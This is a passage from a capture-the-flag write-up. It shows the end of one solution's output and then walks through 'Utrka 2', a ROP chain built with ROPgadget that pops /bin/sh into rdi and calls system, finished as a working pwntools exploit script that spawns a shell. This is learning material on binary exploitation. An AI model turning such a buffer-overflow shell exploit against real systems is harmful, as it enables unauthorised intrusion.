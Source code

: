 ```text
You lose :(

CTF2024[395847397764]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAp7\[*] Got EOF while reading in interactive
```

Flag acquired!

-----------------------

### Utrka 2

For Utrka 2 nothing changes except that we are told the filename of the other flag `systemOwnFlag.txt`.

To get this flag we need to get a shell, the easiest way to do that is through [ROP](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). 

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) like this:

```
ROPgadget --binary utrka --ropchain
```

we can get it to generate a payload for us that would automatically give us a shell, unfortunately it isn't that easy. We are quite limited by space so we are gonna have to craft our own ropchain and one that can fit into our
relatively small buffer overflow.

Our way to a shell is through the [system](https://en.cppreference.com/w/c/program/system) function. It takes a pointer to a string into the `rdi` register and runs that string as a shell command.
We want to give it the location for the `/bin/sh` string in order to get a shell.

Let's first check if it is in our binary with this

```
strings utrka | grep /bin/sh
/bin/sh
```

Now we need a way to get the location of that string into the `rdi` register. We need a `pop rdi` gadget
```
ROPgadget --binary utrka | grep 'pop rdi ; ret'
0x00000000004880fb : add al, ch ; pop rdi ; retf 0xfff7
0x000000000040256f : pop rdi ; ret
0x00000000004880fd : pop rdi ; retf 0xfff7
```

Looks like that is in here as well, and since another function already calls `system` we don't need to worry about if it is in the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) or not.

Time to craft our exploit, and just as before we are going to have to align the stack frame before calling system.

```python
from pwn import *

elf = ELF('./utrka')
rop = ROP(elf)

payload = b'A' * cyclic_find(0x63616171)                     # padding
payload += p64(rop.find_gadget(['pop rdi', 'ret']).address)  # pop address of /bin/sh into rdi
payload += p64(next(elf.search(b'/bin/sh')))                 # address of /bin/sh
payload += p64(rop.find_gadget(['ret']).address)             # align stack frame
payload += p64(elf.symbols['system'])                        # profit

p = process('./utrka')
p.sendline(payload)
p.interactive()
```